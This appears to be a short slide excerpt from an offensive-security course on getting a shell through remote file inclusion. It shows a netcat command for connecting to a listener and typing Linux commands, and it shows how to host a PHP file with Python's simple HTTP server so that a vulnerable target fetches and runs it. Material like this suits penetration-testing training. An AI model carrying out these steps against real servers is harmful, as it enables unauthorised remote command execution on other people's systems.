

# RFI Shell
In the terminal type
# nc 127.0.0.1 1337

No prompt will be given, just type any linux command to see the output
Instead of running from apache you can launch the Ptyhon simple http server so that the PHP file will not be interpreted by your server but on the host application.
Python 2: # python -m SimpleHTTPServer
Python3: # python3 -m http.server
All files in the directory where the simple server is launched from will be available for uploading to remote server.